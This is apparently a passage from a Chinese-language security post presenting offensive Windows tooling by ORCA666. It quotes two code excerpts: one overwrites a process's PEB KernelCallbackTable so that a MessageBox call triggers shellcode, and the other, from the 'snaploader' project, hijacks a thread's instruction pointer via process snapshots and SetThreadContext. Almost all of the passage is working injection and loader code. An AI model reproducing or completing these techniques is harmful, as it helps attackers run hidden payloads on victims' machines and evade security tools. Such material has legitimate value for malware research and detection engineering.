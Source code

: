 ```
 
 
        Success = VirtualProtect(PI.PebBaseAddress, sizeof(PEB), PAGE_READWRITE, &Old);
        //WriteProcessMemory(TargetProcess, (PBYTE)PI.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &pNewkct, sizeof(ULONG_PTR), &lpNumberOfBytesWritten);
        RtlMoveMemory((PBYTE)PI.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &pNewkct, sizeof(ULONG_PTR));
        Success = VirtualProtect(PI.PebBaseAddress, sizeof(PEB), Old, &Old);
        //if (lpNumberOfBytesWritten == 0) {
        //    printf("[!] WriteProcessMemory failed: Win32 error %d \n", GetLastError());
        //    return FALSE;
        //}
        //else {
            Check_fnDWORDAfterOverWriting(TargetProcess);
            MessageBoxA(NULL, "test", "test", MB_OK); //this will trigger the shellcode, and u wont see the messagebox ;0
            if (Clean == TRUE) {
                //WriteProcessMemory(TargetProcess, WMIsAO_ADD, &Buffer, sizeof(Buffer), &lpNumberOfBytesWritten);
                RtlMoveMemory(WMIsAO_ADD, Buffer, sizeof(Buffer));
                ZeroMemory(Buffer, sizeof(Buffer));
            }
        //}
        return TRUE;
    }
}

```

[ORCA666](https://twitter.com/ORCA6665) 发布的另一个项目 [snaploader](https://gitlab.com/ORCA666/snaploader/)：

 

![](https://s4.ax1x.com/2022/02/10/HYODsg.png)

```
while (PssSuccess == ERROR_SUCCESS) {
        ++i;
        PssSuccess = PssWalkSnapshot(
            SnapshotHandle,
            PSS_WALK_THREADS,
            WalkMarkerHandle,
            &Handle,
            sizeof(PSS_THREAD_ENTRY)
        );
        if (ThreadEntry.ThreadId == TID){
            memcpy(&Snapctx, ThreadEntry.ContextRecord, sizeof(CONTEXT));
            printf("[+] Snapctx.Rip Before Setting : 0x%-016p\n", (void*)Snapctx.Rip);
            if (Rip) {
                Snapctx.Rip = *(DWORD64*)Rip;
            }
            if (Rsp) {
                Snapctx.Rsp = *(DWORD64*)Rsp;
            }
            printf("[+] Snapctx.Rip After Setting : 0x%-016p\n", (void*)Snapctx.Rip);
 
            if (!SetThreadContext(hThread, &Snapctx)) {
                printf("[!] SetThreadContext FAILED with Error : %d \n", GetLastError());
                return FALSE;
            }
            Sleep(5000);
            printf("[+] DebugActiveProcessStop ...");
            DebugActiveProcessStop(PID);
            printf("[+] DONE \n");
```